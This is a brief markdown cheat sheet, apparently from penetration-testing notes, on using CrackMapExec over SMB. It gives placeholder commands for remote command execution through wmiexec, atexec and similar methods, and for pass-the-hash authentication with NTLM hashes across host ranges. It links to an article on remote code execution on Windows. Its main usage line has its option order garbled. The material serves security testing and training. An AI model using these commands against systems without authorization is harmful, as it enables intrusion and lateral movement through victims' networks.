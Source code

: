 # CrackMapExec

## 01 - Usage

`$ crackmapexec smb <IP>/<CIDR> --exec-method -u <wmiexec | atexec | smbexec | mmcexec> "<username>" -p "<password>" -d <domain_name>`

- Pass the Hash

```
$ crackmapexec smb <IP>/<CIDR> -u "<username>" -H "<ntlm_hash>" -d <domain_name>

$ crackmapexec smb targets.txt -u "<username>" -H "<ntlm_hash>" -d <domain_name>
```

## References

- [RCE On Windows From Linux Part 2 CrackMapExec](https://www.infosecmatter.com/rce-on-windows-from-linux-part-2-crackmapexec/)